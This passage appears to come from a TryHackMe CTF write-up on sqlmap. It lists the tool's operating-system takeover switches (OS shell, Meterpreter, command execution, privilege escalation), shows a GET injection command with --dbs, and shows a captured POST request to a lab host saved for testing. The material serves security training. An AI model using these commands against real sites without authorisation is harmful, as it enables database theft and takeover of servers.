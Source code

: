 | Options<br>         | Description<br>                                       |
| ------------------- | ----------------------------------------------------- |
| \--os-shell         | Prompt for an interactive operating system shell<br>  |
| \--os-pwn           | Prompt for an OOB shell, Meterpreter or VNC<br>       |
| \--os-cmd=OSCMD<br> | Execute an operating system command<br>               |
| \--priv-esc<br>     | Database process user privilege escalation<br>        |
| \--os-smbrelay<br>  | One-click prompt for an OOB shell, Meterpreter or VNC |

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run sqlmap -hh to display the advanced help message.

Now that we've seen some of the options we can use with sqlmap, let’s jump into the examples using both GET and POST Method based requests.

**Simple HTTP GET Based Test**

`sqlmap -u https://testsite.com/page.php?id=7 --dbs`

Here we have used two flags: -u to state the vulnerable URL and --dbs to enumerate the database.


**Simple HTTP POST Based Test**

First, we need to identify the vulnerable POST request and save it. In order to save the request, Right Click on the request, select 'Copy to file', and save it to a directory. You could also copy the whole request and save it to a text file as well.


![sqlmap](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/TryHackMe/images/sqlmap/Picture-2.png "sqlmap")

```
           
nare@nare$ cat req.txt
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.17.116
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.17.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.17.116/blood/nl-search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=bt0q6qk024tmac6m4jkbh8l1h4
Connection: close

blood_group=B%2B

```
